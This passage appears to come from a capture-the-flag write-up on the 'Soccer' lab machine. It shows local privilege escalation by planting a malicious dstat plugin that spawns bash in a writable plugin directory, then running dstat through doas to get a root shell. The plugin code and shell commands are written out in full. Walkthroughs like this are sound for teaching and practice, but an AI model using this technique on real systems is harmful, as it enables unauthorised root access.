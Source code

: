 #### man Page

`dstat` is a tool for getting system information. Looking at the [man page](https://linux.die.net/man/1/dstat), there’s a section on plugins that says:

> While anyone can create their own dstat plugins (and contribute them) dstat ships with a number of plugins already that extend its capabilities greatly.

At the very bottom of the page, it has a section on files:

> Paths that may contain external dstat\_\*.py plugins:
>
> ```

> ~/.dstat/
> (path of binary)/plugins/
> /usr/share/dstat/
> /usr/local/share/dstat/
>
> ```

Plugins are Python scripts with the name `dstat_[plugin name].py`.

#### Malicious Plugin

I’ll write a very simple plugin:

```

import os

os.system("/bin/bash")

```

This will drop into Bash for an interactive shell.

Looking at the list of locations, I can obviously write to `~/.dstat`, but when run with `doas`, it’ll be running as root, and therefore won’t check `/home/player/.dstat`. Luckily, `/usr/local/share/dstat` is writable.

```

player@soccer:~$ echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py

```

With that in place, I’ll invoke `dstat` with the `0xdf` plugin:

```

player@soccer:~$ doas /usr/bin/dstat --0xdf
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player#

```

And grab the flag:

```

root@soccer:~# cat root.txt
774a30b5************************

```
